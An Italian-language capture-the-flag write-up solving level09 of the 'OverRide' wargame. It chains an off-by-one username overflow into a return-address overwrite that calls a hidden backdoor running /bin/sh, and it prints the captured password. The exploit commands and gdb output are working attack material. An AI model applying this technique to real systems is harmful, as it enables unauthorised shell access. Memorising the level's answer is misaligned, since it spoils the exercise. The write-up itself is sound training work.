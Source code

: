 # Level 09
Analizziamo le stringhe presenti nel binario:
```
level09@OverRide:~$ readelf -p '.rodata' level09

String dump of section '.rodata':
  [     8]  >: Msg sent!
  [    15]  >: Msg @Unix-Dude
  [    27]  >>:
  [    2c]  >: Enter your username
  [    43]  >: Welcome, %s
  [    58]  --------------------------------------------^J|   ~Welcome to l33t-m$n ~    v1337        |^J-------------------------------------------
```
e passiamo ad analizzare con `gdb`:
```
level09@OverRide:~$ gdb -q level09
Reading symbols from /home/users/level09/level09...(no debugging symbols found)...done.
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x00000000000006f0  _init
0x0000000000000720  strncpy
0x0000000000000720  strncpy@plt
0x0000000000000730  puts
0x0000000000000730  puts@plt
0x0000000000000740  system
0x0000000000000740  system@plt
0x0000000000000750  printf
0x0000000000000750  printf@plt
0x0000000000000760  __libc_start_main
0x0000000000000760  __libc_start_main@plt
0x0000000000000770  fgets
0x0000000000000770  fgets@plt
0x0000000000000780  __cxa_finalize
0x0000000000000780  __cxa_finalize@plt
0x0000000000000790  _start
0x00000000000007bc  call_gmon_start
0x00000000000007e0  __do_global_dtors_aux
0x0000000000000860  frame_dummy
0x000000000000088c  secret_backdoor
0x00000000000008c0  handle_msg
0x0000000000000932  set_msg
0x00000000000009cd  set_username
0x0000000000000aa8  main
0x0000000000000ad0  __libc_csu_init
0x0000000000000b60  __libc_csu_fini
0x0000000000000b70  __do_global_ctors_aux
0x0000000000000ba8  _fini
```

### Funzione `main`
Chiama la funzione `handle_msg`.

### Funzione `handle_msg`
Inizializza una struttura formata nel seguente modo:
```
typedef struct s_info
{
    char msg[140];
    char username[40];
    int size;
}               t_info;
```
e assegna alla `size` `140` per poi chiamare le funzioni `set_username`
e `set_msg`.

### Funzione `set_username`
Viene letto tramite `fgets` dallo standard input un buffer da 128 byte e salva
41 caratteri nella variabile `username` della struttura.

### Funzione `set_msg`
Viene letto tramite `fgets` dallo standard input un buffer da 1024 byte e copia
tramite `strncpy` nella variabile `msg` della struttura un numero di caratteri
specificato dalla variabile `size` della struttura.

### Funzione `secret_backdoor`
Avvia la funzione `system` passando come argomento ciò che viene letto dallo
standard input tramite `fgets`.

### Soluzione
La variabile nella struttura `username` è grande 40 byte mentre nella funzione
`set_username` possiamo copiare `41` byte, di conseguenza abbiamo la possibilità
di sovrascrivere la variabile `size` e copiare più di 140 byte nella variabile `msg`,
quindi seguendo questa logica troviamo l'offset per sovrascrivere l'indirizzo di ritorno
in `eip`:
```
level09@OverRide:~$ python -c "print 'A'*40 + '\xff' + '\n' + 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A'" > /tmp/exploit
level09@OverRide:~$ gdb -q level09
Reading symbols from /home/users/level09/level09...(no debugging symbols found)...done.
(gdb) r < /tmp/exploit
Starting program: /home/users/level09/level09 < /tmp/exploit
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!

Program received signal SIGSEGV, Segmentation fault.
0x0000555555554931 in handle_msg ()
(gdb) info frame
Stack level 0, frame at 0x7fffffffe5c8:
 rip = 0x555555554931 in handle_msg; saved rip 0x4138674137674136
 called by frame at 0x7fffffffe5d8
 Arglist at 0x6741356741346741, args:
 Locals at 0x6741356741346741, Previous frame's sp is 0x7fffffffe5d0
 Saved registers:
  rip at 0x7fffffffe5c8
```
Abbiamo individuato l'offset a 200 caratteri, quindi ora troviamo l'indirizzo della
funzione `secret_backdoor`:
```
(gdb) x secret_backdoor
0x55555555488c <secret_backdoor>:       0xe5894855
```
Quindi scriviamo l'exploit ed eseguiamo:
```
level09@OverRide:~$ (python -c "print 'A'*40 + '\xff' + '\n' + 'B'*200 + '\x8c\x48\x55\x55\x55\x55\x00\x00' + '/bin/sh'"; cat) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
exit
```
```
level09@OverRide:~$ su end
Password: j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
end@OverRide:~$ ls
end
end@OverRide:~$ cat end
GG !
```